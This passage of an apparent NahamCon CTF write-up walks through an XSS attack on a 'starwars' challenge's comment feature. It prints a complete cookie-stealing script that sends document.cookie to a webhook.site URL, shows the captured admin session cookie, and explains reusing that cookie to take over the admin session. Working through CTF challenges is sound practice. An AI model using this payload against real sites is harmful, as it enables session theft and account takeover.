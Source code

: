 ![starwars-post](/assets/img/nahamctf-starwars-post.png)

We can exploit this via a reflected XSS. We set up a webhook URL ( 	https://webhook.site/d0d94bf9-e7cf-4e17-8f12-d4eae3541057) where the admin cookies can be sent to. 

The payload tries to load an image from our server, and concatenates the cookies of the webpage that this code is being loaded on. If the admin reviews this comment, this code will be ran and we will see their cookies on our webhook server via an URL request.

```javascript
<script>var i=new Image(); i.src="https://webhook.site/d0d94bf9-e7cf-4e17-8f12-d4eae3541057/?cookie="+document.cookie;</script>
```

We will receive two requests on our webhook server, the first contains our own cookie as the code is being loaded right away. After a few seconds, we get another request which is the one of the admin who is reviewing our comment.

```
 https://webhook.site/d0d94bf9-e7cf-4e17-8f12-d4eae3541057/?cookie=x-wing=eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZJRNfQ.n7sVecPoo_6auPKEcGjerTTD4m0
```

We can now use the cookie value (`eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZJRNfQ.n7sVecPoo_6auPKEcGjerTTD4m0`) and update the `x-wing` key in our own cookie via the browser tools.
